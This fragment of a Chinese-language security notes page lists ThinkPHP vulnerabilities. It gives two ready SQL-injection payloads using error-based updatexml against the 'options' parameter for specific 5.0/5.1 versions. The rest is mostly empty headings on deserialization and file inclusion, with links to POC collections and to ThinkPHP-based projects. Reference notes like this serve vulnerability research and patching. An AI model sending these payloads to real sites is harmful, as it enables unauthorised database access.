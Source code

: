 ### 五、Mysql类聚合函数相关方法

影响版本：5.0.0-5.0.21、5.1.3-5.1.25

payload：5.0.0-5.0.21 、5.1.3-5.1.10

> /index/index/index?options=id)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23

payload：5.1.11-5.1.25

> /index/index/index?options=id`)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23

https://github.com/Mochazz/ThinkPHP-Vuln/blob/master/ThinkPHP5/ThinkPHP5漏洞分析之SQL注入6.md

https://github.com/Mochazz/ThinkPHP-Vuln

## 03-ThinkPHP与反序列化漏洞

https://github.com/Dido1960/thinkphp

https://github.com/Mochazz/ThinkPHP-Vuln

### 一、5.0反序列化

### 二、5.1反序列化

影响版本：5.1.37

### 三、5.2反序列化

### 四、6.0反序列化

## 04-ThinkPHP与文件包含漏洞

### 一、版本5.0.0<=5.0.18

## 05-基于ThinkPHP程序

- https://github.com/search?q=thinkphp+3.2.3&type=Repositories
- https://github.com/search?q=based+on+ThinkPHP&type=Repositories
- https://github.com/GreenCMS/GreenCMS

## 06-POC与EXP整理

## 07-参考链接

- https://xz.aliyun.com/t/3868
- https://github.com/SkyBlueEternal/thinkphp-RCE-POC-Collection

  


